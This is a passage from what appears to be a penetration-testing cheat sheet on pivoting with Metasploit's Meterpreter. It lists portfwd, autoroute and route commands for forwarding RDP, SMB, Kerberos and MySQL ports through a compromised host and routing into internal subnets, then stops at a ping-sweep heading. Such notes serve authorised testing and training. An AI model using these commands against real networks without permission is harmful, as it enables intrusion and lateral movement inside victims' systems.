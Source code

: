 ```bash
# Meterpreter list active port forwards
portfwd list 

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd add –l 3389 –p 3389 –r target-host 
portfwd add -l 88 -p 88 -r 127.0.0.1
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd delete –l 3389 –p 3389 –r target-host 
# Meterpreter delete all port forwards
portfwd flush 

or

# Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0
run autoroute -s 192.168.15.0/24 
use auxiliary/server/socks4a

# Meterpreter list all active routes
run autoroute -p 

route #Meterpreter view available networks the compromised host can access
# Meterpreter add route for 192.168.14.0/24 via Session number.
route add 192.168.14.0 255.255.255.0 3 
# Meterpreter delete route for 192.168.14.0/24 via Session number.
route delete 192.168.14.0 255.255.255.0 3 
# Meterpreter delete all routes
route flush 
```

### Port forward with metasploit <a href="#port-forward-with-metasploit" id="port-forward-with-metasploit"></a>

We can also forward ports using metasploit. Say that the compromised machine is running services that are only accessible from within the network, from within that machine. To access that port we can do this in meterpreter:

```
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.222
```

Now we can access this port on our machine locally like this.

```
nc 127.0.0.1 3306
```

#### Ping-sweep the network <a href="#ping-sweep-the-network" id="ping-sweep-the-network"></a>

First we want to scan the network to see what devices we can target. In this example we already have a meterpreter shell on a windows machine with SYSTEM-privileges.
